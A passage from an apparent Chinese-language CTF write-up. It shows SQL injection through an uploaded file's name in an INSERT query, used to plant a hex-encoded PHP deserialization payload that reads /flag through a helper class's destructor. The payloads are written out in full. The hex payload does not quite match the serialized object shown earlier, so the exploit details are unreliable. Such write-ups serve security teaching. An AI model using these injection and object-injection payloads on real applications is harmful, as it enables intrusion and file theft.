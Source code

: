 ```
INSERT INTO images (`title`,`filename`,`ext`,`path`,`attr`) VALUES ('<title values>' ,'<filename values>','<ext values>','<path values>','<attr values>')
```

因此我们可以利用sql特性让filename的值为：

`filename=”1','1','1','1',xxxx)#1.jpg“`

这样在插入时，插入语句就变成了：

```
INSERT INTO images (`title`,`filename`,`ext`,`path`,`attr`) VALUES ('<title values>' ,'1','1','1','1',xxxx)#1.jpg','<ext values>','<path values>','<attr values>')
```

在sql执行时，attr对应的是xxxx。这样attr就为我们所控制。

在利用helper 类的 __destruct()方法读取flag。

反序列化payload：

```
O:6:"helper":2:{s:9:"\0\0\0ifview";b:1;s:9:"\0\0\0config";s:5:"/flag";}
```

但防止在中间过程中`”`产生误解，我们可以利用`将数据16进制存储也会被sql自动转`的sql特性。将数据转换为16进制。所以完整payload：

```
filename="1','1','1','1',0x4f3a363a2268656c706572223a313a7b733a393a22636f6e666967223b733a353a222f666c6167223b7d)#1.jpg"
```

![image-20210111212354400](image-20210111212354400.png)

![image-20210111212838846](image-20210111212838846.png)